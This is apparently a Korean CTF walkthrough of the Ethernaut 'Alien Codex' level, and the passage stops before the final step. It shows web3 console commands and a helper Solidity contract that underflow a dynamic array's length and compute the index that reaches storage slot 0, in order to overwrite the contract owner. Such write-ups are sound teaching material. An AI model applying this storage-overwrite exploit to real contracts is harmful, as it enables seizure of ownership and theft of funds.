 현재 owner에는 어떤 값이 저장되어 있는지 web3.eth.getStorageAt을 통하여 알아내자.

```solidity
=> Instance address
0x2af0948EF66793FF69864f01C444a82ADc89f3d5

await web3.eth.getStorageAt('0x2af0948EF66793FF69864f01C444a82ADc89f3d5',0)
'0x00000000000000000000000027bc920e7c426500a0e7d63bb037800a7288abc1'
```

이 값을 내 메타마스크 주소로 변경해야 한다. 내 메타마스크 주소는 총 20 바이트이므로 이 값을 덮어 씌워주기 위해서는 앞에 0을 12바이트 붙여주어야 한다.

```solidity
player
->0x83b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a

result = '0x00000000000000000000000083b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a'
'0x00000000000000000000000083b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a'
```

값을 덮어 씌워주기 위한 준비는 끝났으므로 codex의 크기를 언더플로우를 일으키자.

먼저 codex 동적 배열의 크기를 줄이는 retract()함수를 호출하려면 make_contact를 먼저 실행해주어contacted 조건을 달성해야 한다.

```solidity
await contract.make_contact()
-> contact 변수를 1로 만듬
await contract.retract()
-> codex 동적 배열의 크기를 1 줄여 언더플로우 발생
await web3.eth.getStorageAt('0x2af0948EF66793FF69864f01C444a82ADc89f3d5',1)
'0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

이제 codex의 index를 이용하여 모든 slot에 접근할 수 있게 되었다. codex[0]은 몇번째 슬롯에 저장되는지 알아보자. codex의 크기는 slot1에 저장되므로 keccak256(1)에 동적배열 값이 저장되게 된다. 헷갈리지 말자! 동적 배열의 길이가 아니라 동적 배열의 길이가 저장된 slot의 해시값이 값이 저장되는 위치이다.

![keccat(slot1).PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a8962028-1bb6-4ed4-9772-17292ab9f7a7/keccat(slot1).png)

0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 번째의 위치가 codex[0]이 저장되는 slot이다. 그렇다면 우리가 접근하고자 하는 slot은 0번째 slot이므로 이를 구하기 위해서는 슬롯의 최대 값인 ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff 에서 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 를 빼준후 +1을 해주면 그 위치가 0번째 slot이 된다.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.0;

contract test{
    bytes32 public a = 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff;
    bytes32 public b = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6;
    bytes32 public c;

    constructor(){
        c=bytes32(uint256(a)-uint256(b)+1);
    }
}
```
